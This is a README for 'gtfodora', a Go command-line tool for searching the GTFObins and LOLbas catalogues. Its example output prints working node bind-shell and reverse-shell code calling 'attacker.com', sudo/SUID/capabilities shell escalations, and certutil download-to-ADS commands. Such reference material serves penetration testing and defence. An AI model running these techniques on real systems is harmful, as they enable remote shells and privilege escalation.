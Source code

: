 # Gtfodora
Explorer for GTFObins and LOLbas content.

The main purpose of this small tool is to give a CLI interface to the amazing [GTFObins](https://gtfobins.github.io/) and [LOLbas](https://lolbas-project.github.io/) projects.

The way `gtfodora` accomplishes this is quite dumb, it clones the repositories for the two sites and parses the `.yml` files, similarly to what the static site generator does.

## Disclaimer

I used this project to learn GO, or at least to get started with it. The code is probably bad, and there are several improvements that can be made. Please be forgiving and feel free to open PRs.

## Usage

```bash
Usage of ./gtfodora:
  -clone-path string
    	The path in which to clone the gtfobin and lolbas repos, defaults to "/tmp." (default "/tmp")
  -f string
    	Filter the search only for the specified function
  -list-all
    	List all the binaries in the collection
  -list-functions
    	List the functions for the binaries
  -s string
    	Search for the binary specified and prints its details
  -unix
    	Filter the search among only unix binaries (i.e., gtfobin)
  -v	Set loglevel to DEBUG
  -win
    	Filter the search among only windows binaries (i.e, lolbas)

```

The `-clone-path` defaults to `/tmp` and represents the directory in which the repositories will be cloned.
The `-list-all` and `-list-functions` print, respectively, all the binaries (both Unix and Windows) and all the functions that are available (i.e., "Download File" or "Execute").
The `-unix` and `-win` switches can be used together with all the other commands and will filter the results for GTFObins or LOLbas only, respectively.
The `-s` and `-f` can be used to search for specific binaries (-s), binaries that allow a certain function (-f) or to get the information on how a function is performed by a specific binary (combined).

At every execution the program will try to clone and pull the repositories, so that the information is up-to-date.

## Examples

List all the functions for GTFObins:

```bash
time ./gtfodora -clone-path . -list-functions -unix
Functions available:
	shell
	upload
	download
	filewrite
	fileread
	libraryload
	sudo
	noninteractiverevshell
	command
	bindshell
	suid
	limitedsuid
	revshell
	noninteractivebindshell
	capabilities
./gtfodora -clone-path . -list-functions -unix  0,31s user 0,11s system 21% cpu 1,927 total
```

Search for all the binaries that can perform the 'bindshell' function:

```bash
time ./gtfodora -f bindshell
List of all the binaries with function bindshell:
nc
node
socat
./gtfodora -f bindshell  0,10s user 0,02s system 13% cpu 0,913 total
```

Get the details of how a binary can accomplish the bindshell function:

```bash
time ./gtfodora -f bindshell -s node
[+] bindshell:
--------------
- Description:
Run `nc target.com 12345` on the attacker box to connect to the shell.
- Code:
export LPORT=12345
node -e 'sh = require("child_process").spawn("/bin/sh");
require("net").createServer(function (client) {
  client.pipe(sh.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
}).listen(process.env.LPORT);'


./gtfodora -f bindshell -s node  0,11s user 0,01s system 13% cpu 0,936 total
```

Get all the details about a specific binary:

```bash
time ./gtfodora -s node
Information about: node
[+] shell:
----------
- Code:
node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'


[+] sudo:
---------
- Code:
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'


[+] bindshell:
--------------
- Description:
Run `nc target.com 12345` on the attacker box to connect to the shell.
- Code:
export LPORT=12345
node -e 'sh = require("child_process").spawn("/bin/sh");
require("net").createServer(function (client) {
  client.pipe(sh.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
}).listen(process.env.LPORT);'


[+] suid:
---------
- Code:
./node -e 'require("child_process").spawn("/bin/sh", ["-p"], {stdio: [0, 1, 2]});'


[+] revshell:
-------------
- Description:
Run `nc -l -p 12345` on the attacker box to receive the shell.
- Code:
export RHOST=attacker.com
export RPORT=12345
node -e 'sh = require("child_process").spawn("/bin/sh");
net.connect(process.env.RPORT, process.env.RHOST, function () {
  this.pipe(sh.stdin);
  sh.stdout.pipe(this);
  sh.stderr.pipe(this);
});'


[+] capabilities:
-----------------
- Code:
./node -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]});'


./gtfodora -s node  0,12s user 0,04s system 16% cpu 0,904 total
```

Do the same, for a Windows binary: 

```bash
time ./gtfodora -s Certutil.exe
Information about: Certutil.exe
[+] download:
-------------
- Description:
Download and save 7zip to disk in the current folder.
- Code:
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe

[+] download:
-------------
- Description:
Download and save 7zip to disk in the current folder.
- Code:
certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe

[+] ads:
--------
- Description:
Download and save a PS1 file to an Alternate Data Stream (ADS).
- Code:
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt

[+] encode:
-----------
- Description:
Command to encode a file using Base64
- Code:
certutil -encode inputFileName encodedOutputFileName

[+] decode:
-----------
- Description:
Command to decode a Base64 encoded file.
- Code:
certutil -decode encodedInputFileName decodedOutputFileName

./gtfodora -s Certutil.exe  0,10s user 0,03s system 13% cpu 0,975 total
```
